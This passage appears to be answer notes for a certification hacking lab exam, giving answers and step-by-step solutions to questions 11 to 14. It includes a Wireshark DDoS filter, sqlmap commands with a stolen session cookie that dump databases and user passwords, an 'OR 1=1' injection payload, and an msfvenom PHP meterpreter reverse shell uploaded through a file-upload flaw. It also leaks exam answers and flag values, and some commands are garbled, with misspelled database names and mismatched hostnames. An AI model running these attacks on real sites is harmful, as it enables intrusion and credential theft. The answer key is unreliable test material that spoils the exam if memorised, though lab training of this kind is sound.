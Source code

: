 6. Click on file and upload the file from windows, after uploading it manually open the header file then you can see the entry point address.
11.You are investigating a massive DDoS attack launched against a target at 10.10.1.10. Identify the attacking IP address that sent most packets to the victim machine. The network capture file "attack-traffic.pcapng" is saved in the Documents folder of the "EH Workstation – 1" (Parrot Security) machine.
Answer: 172.20.0.21
1. Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
2. tcp.flags.syn == 1 and tcp.flags.ack == 0
3. you can find the high number of packets send to10.10.1.10 address and that answer.
12.Perform an SQL injection attack on your target web application cinema.cehorg.com and extract the password of a user Sarah. You have already registered on the website with credentials Karen/computer.
Answer: abc123
1. now in parrot os, open firefox and login into the website given and details.
2. Go to profile and and right cleck and inspect and console type “document.cookie” you will get one value.
3. Open the terminal and type the below commands to get the password of other user.
4. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=;" –-dbs
5. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moveiscope – -tables
6. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moviescope -T user-Login – -dump
7. You will get all the Useraname and Passwords of the website.
13.Exploit the web application available at www.cehorg.com and enter the flag's value at the page with page_id=84.
Answer:
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql
injection using sqlmap.
3. Now open the burp and check the input parameters and intercept on then type some as “1 OR ANY TEXT”
you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
4. sqlmap -r <txt file from burpsuite> --dbs
5. sqlmap -r <txt file from burpsuite> -D <database name> --tables
6. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns
7. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all
8. then login and do the url parameter change page_id=1 to page_id=84
14.Perform vulnerability research and exploit the web application training.cehorg.com, available at 192.168.0.64. Locate the Flag.txt file and enter its content as the answer.
Answer: p74NSHXz
1. Scan the target with Zapp to find the vulnerability. Then exploit it. It can be file upload/ File inclusion vulnerability on DVWA.
2. msfconsole in one tab next in new tab
3. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php
4. >use exploit/multi/handler or use 30
5. >set payload php/meterpreter/reverse_tcp
6. Set LHOST ipadd
7. Upload a file you created as exploit.php
8. Open terminal and type run once you get url type url in brower you get meterpreter session then type ls
get the files.

